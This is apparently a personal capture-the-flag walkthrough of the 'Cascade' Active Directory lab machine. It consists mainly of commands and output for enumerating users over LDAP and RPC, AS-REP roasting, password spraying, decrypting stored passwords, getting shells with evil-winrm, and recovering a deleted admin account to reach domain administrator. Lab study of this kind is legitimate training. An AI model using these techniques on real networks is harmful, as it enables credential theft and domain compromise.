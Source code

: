 ### Making a Target User List (HTB Academy)
```bash
crackmapexec smb $IP --users # domain:cascade.local
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
```

##### Method 1 re-assembly rpcclient users list
```bash
cat rpc_users_raw.txt | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > rpc_users.txt

# or 

cat rpc_users_raw.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

### ASREP Roasting
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -s base > ldapsearch_all.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" > ldapsearch_dc.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" '(objectClass=person)' > ldapsearch_person.txt

ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))" | grep -i samaccountname: | cut -f2 -d" " > ldapsearch_user.txt
```
looks closely, there is one special user that other scans not poping it out.

CASC-DC1$

##### Enum others than user on ldapsearch
```bash
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" '(objectClass=person)'
```
cascadeLegacyPwd: clk0bjVldmE=

❯ echo clk0bjVldmE= | base64 -d
rY4n5eva

### ldapdomaindump
```bash
ldapdomaindump cascade.local
```

### windapsearch is way better !
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

# a little trick
cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr
```

### ASREP Roasting Again
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### Bash one-liner to try rpcclient and smb again
```bash
for u in $(cat rpc_users.txt); do smbmap -H $IP -u $u; done
for u in $(cat rpc_users.txt); do smbmap -H $IP -d cascade.local -u $u; done
```
```bash
for u in $(cat rpc_users.txt); do smbpasswd -r $IP -U $u; done
```

### Password sparying
```bash
crackmapexec smb $IP -u rpc_users.txt -p rY4n5eva | grep +

/opt/kerbrute_linux_amd64 passwordspray -d cascade.local --dc $IP rpc_users.txt rY4n5eva
```

SMB         10.129.114.189  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva

```bash
crackmapexec winrm $IP -u r.thompson -p rY4n5eva
```

### SMB Againt
```bash
❯ smbmap -H $IP -u r.thompson -p rY4n5eva
[+] IP: 10.129.114.189:445      Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

spider
```bash
crackmapexec smb $IP -u r.thompson -p rY4n5eva -M spider_plus
```

#### mount smb with creds
```bash
sudo mount -t cifs //$IP/Data /mnt -o username=r.thompson,password=rY4n5eva,domain=cascade.local
```

```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

s.smith:sT333ve2

### Bloodhound-python
```bash
bloodhound-python -c DcOnly -u s.smith -p 'sT333ve2' -d cascade.local -dc CASC-DC1.cascade.local -ns $IP
```

### Hint here
net user s.smith
net localgroup "Audit Share"
That's unusual

### Rush SMB, SMB RUSH
```bash
smbclient \\\\$IP\\Audit$ -U s.smith%sT333ve2
```

`sqlitebrowser Audit.db`

❯ echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
������D�|zC�;                                                                                                                                                                                            
The table `LDAP` contains a password for the user. But encrypted


### Privilege Escalation
❯ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[-] rpc_s_access_denied
```                                                   
❯ python3 /usr/share/doc/python3-impacket/examples/psexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
[-] share 'ADMIN$' is not writable.
[-] share 'Audit$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```
# Root

```
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd  # <-- !!! Sometimes just can't use ip to get a shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

The user is identified to belong to the `AD Recycle Bin` group. AD Recycle Bin is used to recover deleted AD objects such as Users, Groups, OUs etc. The objects keep all their properties intact.

```ps
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

add a filter for user

Get-ADObject -filter { SAMAccountName -eq "TempAdmin"} -includeDeletedObjects -Properties *

YmFDVDNyMWFOMDBkbGVz

evil-winrm -i cascade.local -u administrator -p baCT3r1aN00dles
